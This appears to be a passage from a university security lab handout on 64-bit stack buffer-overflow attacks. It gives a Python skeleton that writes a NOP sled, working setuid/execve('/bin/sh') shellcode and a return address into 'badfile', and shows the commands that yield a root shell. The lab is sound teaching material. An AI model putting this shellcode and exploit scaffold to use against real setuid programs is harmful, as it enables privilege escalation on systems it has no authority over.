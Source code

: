 To exploit the buffer-overflow vulnerability in the target program,
we need to prepare a payload, and save it inside \texttt{badfile}. 
We will use programs to do that.
We provide a Python skeleton program
called \texttt{exploit\_64.py}, which
can be downloaded from the lab's website.
The shellcode is already provided in the code. 
The code is incomplete, and students need to replace some of the essential 
values in the code. 


\begin{lstlisting}
#!/usr/bin/python3
import sys

shellcode_64= (
  "\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05"
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))


##################################################################
# Put the shellcode somewhere in the payload
start =  0                    # replace this number
content[start:start + len(shellcode_64)] = shellcode_64


# Decide the return address value 
# and save it somewhere in the payload
ret    = 0x00007FFFAABBCCDD   # replace this number
offset = 0                    # replace this number
content[offset:offset + 8] = (ret).to_bytes(8,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
\end{lstlisting}


After you finish the above program, run it. This will generate
the contents for \texttt{badfile}. Then run the vulnerable 
program {\tt stack}. If your exploit is implemented correctly, you should 
be able to get a root shell:  

\begin{lstlisting}
$./exploit_64.py     // create the badfile
$./stack          // launch the attack by running the vulnerable program
# <---- Bingo! You've got a root shell! 
\end{lstlisting}
 

\paragraph{Challenges.} Compared to buffer-overflow attacks on 32-bit 
machines, attacks on 64-bit machines is more difficult. The most 
difficult part is the address. Although the x64 architecture 
supports 64-bit address space, only the address from 
\texttt{0x00} through \texttt{0x00007FFFFFFFFFFF} is allowed. That means for 
every address (8 bytes), the highest two bytes are always zeros. 
This causes a problem.

